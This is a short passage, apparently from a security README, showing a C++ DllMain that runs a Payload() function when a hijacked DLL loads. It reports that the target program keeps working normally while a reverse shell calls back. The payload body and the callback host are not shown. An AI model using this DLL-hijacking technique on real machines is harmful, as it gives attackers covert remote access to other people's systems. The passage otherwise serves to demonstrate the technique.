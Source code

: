 ```C++
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
 switch (fdwReason)
 {
 case DLL_PROCESS_ATTACH:
  Payload();
  break;
 case DLL_THREAD_ATTACH:
  break;
 case DLL_THREAD_DETACH:
  break;
 case DLL_PROCESS_DETACH:
  break;
 }
 return TRUE;
}
```

After performing DLL Hijacking with the compiled DLL, the binary executes as normal, while the shell callback is present.
![Application is running as expected](running_normal.png)

![Receiving the reverse shell](shell.png)
